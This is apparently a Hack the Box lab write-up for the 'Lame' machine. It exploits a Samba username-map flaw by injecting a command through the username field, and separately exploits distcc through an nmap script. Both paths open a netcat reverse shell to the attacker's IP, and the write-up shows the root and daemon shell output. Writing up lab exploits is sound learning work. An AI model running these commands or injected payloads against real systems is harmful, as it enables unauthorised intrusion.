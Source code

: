 # Hack the Box Ethical Hacking - Lame 
---
## Exploitation Samba

Now we add a listener on the attack machine.

```nc -nlvp 443```

Log into the smb client. As mentioned in the previous section, we’ll send shell metacharacters into the username with a reverse shell payload.

```output
smbclient --no-pass //10.129.115.59/tmp -c 'logon "/=`nohup nc -e /bin/bash 10.10.16.11 443"`'
```

The shell connects back to our attack machine and we have root! In this scenario, we didn’t need to escalate privileges.

```output
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.115.59.
Ncat: Connection from 10.129.115.59:43775.
whoami
root
pwd
/
script /dev/null -c bash
root@lame:/# find \-name root.txt | xargs cat 
4deedc34321c2**********************
root@lame:/# 
```

---

## Exploitation Distcc

We saw the service vulnerable. Let's go to use the Nmap script to send a reverse shell back to the attack machine

`nmap -p 3632 10.129.115.59 --script distcc-exec --script-args="distcc-exec.cmd='nc -e /bin/bash 10.10.16.11 443'"`

start a listener on the attack machine

`nc -nlvp 443`

```output
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.115.59.
Ncat: Connection from 10.129.115.59:60028.
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
script /dev/null -c bash
daemon@lame:/tmp$ whoami
daemon
daemon@lame:/tmp$ hostname
lame
daemon@lame:/tmp$ 
```
